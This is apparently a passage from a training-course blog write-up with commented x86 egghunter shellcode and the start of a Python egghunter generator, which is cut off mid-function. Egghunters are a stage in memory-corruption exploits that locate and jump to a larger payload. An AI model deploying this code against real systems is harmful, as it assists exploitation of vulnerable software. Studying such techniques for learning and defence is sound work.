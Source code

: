 ```nasm
push byte 0x21          ; PUSH POP access(2) syscall ID into EAX
pop eax
int 0x80                ; fire syscall to attempt memory validation

cmp al, 0xf2            ; Has AL returned 0xffffffff2 (-2)?
jz page_alignment       ; If so JMP to the start of the egghunt loop and move up a page
mov eax, 0x77303074     ; If not, Move egg into EAX, in this case it's 'w00t'
mov edi, edx            ; Move EDX into EDI
scasd                   ; Compare data at memory pointed to by EDX and EDI with EAX
jnz inc_memory_addr     ; If it does not match the egg, JMP to the inc EDX instruction in the egghunt loop (skipping the page realignment) and try again.
scasd                   ; Do the above again (the egg needs to appear twice)
jnz inc_memory_addr     ; Note that EDI is incremented by SCASD.
jmp edi                 ; If the egg appears twice in a row, pass execution to it.

```

## Full Egghunter Generator Source

As usual, this source can also be found on github [here.](https://github.com/fbcsec/slae-assignments/blob/master/3-egghunter/egghunter_generator.py) 

```python
#!/usr/bin/env python3
"""
x86 Egghunter Generator
Usage: this_script.py <four_byte_hex_escaped_egg_of_choice>
Author: @fbcsec
This code was written to fulfill the requirements of the SecurityTube Linux Assembly Expert course:
http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html
Student ID: SLAE - 1187
"""

import sys


def array_hex_str_to_ints(list_of_hex_strings):
    """This function accepts a list of strings containing hex digits and
    converts each item into bytes.
    For example, [21, 41, 42, 43] is converted into [b'!', b'A', b'B', b'C']
    """

    for item in range(0, len(list_of_hex_strings)):
        list_of_hex_strings[item] = int(list_of_hex_strings[item], 16)

    return list_of_hex_strings


def process_shellcode(shellcode_input):
    """Convert a string of hex values formatted as C-style hex escapes
    into an array of integers.
    Returns bytes"""

    split_shellcode = shellcode_input.split("x")
    split_shellcode = split_shellcode[1::]  # Remove bogus empty string at start of array

    processed_shellcode = bytes(array_hex_str_to_ints(split_shellcode))

    return processed_shellcode


def c_format_binary_data(data):
    hex_escaped = ''
```